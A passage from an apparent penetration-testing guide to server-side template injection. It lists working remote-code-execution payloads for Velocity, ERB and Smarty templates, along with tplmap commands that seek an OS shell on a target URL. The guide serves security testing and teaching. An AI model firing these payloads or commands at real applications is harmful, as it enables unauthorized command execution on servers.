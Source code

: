 #### Velocity (Java)
Velocity also allows access to Java objects.

*   **Basic RCE payload (to run `id`):**
    ```velocity
    #set($e="java.lang.Runtime".getClass().getMethod("getRuntime",null).invoke(null,null).exec("id"))
    #set($input=$e.getInputStream())
    #set($reader=new "java.io.BufferedReader"(new "java.io.InputStreamReader"($input)))
    #foreach($line in $reader.lines()) $line #end
    ```

#### ERB (Ruby)
ERB allows direct Ruby code execution.

*   **Basic RCE payload (to run `id`):
    ```erb
    <%= system('id') %>
    <%= `id` %>
    <%= %x{id} %>
    ```

#### Smarty (PHP)
Smarty often allows PHP function execution.

*   **Basic RCE payload (to run `id`):
    ```smarty
    {system('id')}
    {php}system('id');{/php}
    ```
    *   *Note*: The `{php}` tag is often disabled in production.

## Tools for Detection & Exploitation

### Burp Suite (Manual & Extensions)
*   **Repeater**: Manually send SSTI payloads and observe responses.
*   **Intruder**: Use a custom wordlist of SSTI payloads for various engines. Look for differences in response length or content.
*   **Extensions**: The Burp BApp Store has extensions specifically designed for SSTI detection and payload generation (e.g., "Tplmap" (though sometimes outdated), "SSTI Scanner").
*   **Tplmap**: An open-source tool dedicated to detecting and exploiting SSTI vulnerabilities.
    *   **Basic Usage**:
        ```bash
        tplmap -u "http://example.com/vulnerable?name=test" --os-shell
        tplmap -u "http://example.com/vulnerable?name=test" --os-cmd "id"
        ```
        *   **`-u`**: Target URL.
        *   **`-d`**: POST data.
        *   **`--os-shell`**: Attempt to get an interactive OS shell.
        *   **`--os-cmd`**: Execute a single OS command.
        *   **`--data`**: Specify POST data for injection.
        *   **`--detect-engine`**: Attempt to detect the template engine.
### Manual Reconnaissance 
Inspect HTTP headers (e.g., `X-Powered-By`), error messages, and public documentation to infer the backend language and potential template engine.
